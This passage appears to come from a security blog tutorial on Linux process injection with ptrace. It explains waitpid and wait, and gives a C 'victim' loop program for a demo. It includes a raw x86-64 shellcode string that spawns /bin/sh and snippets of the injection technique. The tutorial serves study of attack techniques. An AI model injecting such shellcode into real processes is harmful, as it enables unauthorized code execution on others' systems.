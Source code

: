 But there is a caveat. *Why do we use `waitpid` in process injection code?*     
When we attach to a process using `ptrace` (via `PTRACE_ATTACH`), the target process doesn't stop immediately. It continues executing until the operating system delivers a signal indicating that the debugger (our injector) has taken control. We use `waitpid` to block execution in our injector until the target process enters this stopped state:      

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

Without `waitpid`, we might attempt to read or modify memory before the OS guarantees that the target process is fully stopped, leading to undefined behavior.      

Also, in process injection, we often need to detect when our *injected shellcode has finished executing*. To do this, we use a software interrupt, such as the `int 0x3` instruction, which triggers a `SIGTRAP` signal in the target process. This signal pauses the process, allowing us to regain control via `waitpid`.    

Ok, but what about `wait`. *What is `wait`, and when do we use it?*     

The `wait` function is a simpler variant of `waitpid`. It waits for any child process to change state. Unlike `waitpid`, it doesn't let us specify a specific PID or use advanced options.

In the context of process injection, we don't typically use `wait`, as we need fine-grained control over a specific process (our target), which `waitpid` provides. However, `wait` might be used in cases where multiple child processes are involved, and we don't care which one changes state first.     

So, by using `waitpid` strategically, we can ensure smooth and reliable process injection.       

For simplicity, I just used simplest payload:     

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### demo

First of all for demonstrating purposes we need a "victim" process.      

Here's a simple "victim" process written in C that runs an infinite loop, making it a suitable target for injection testing. This program will print a message periodically, simulating a real running process:     

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
}
```
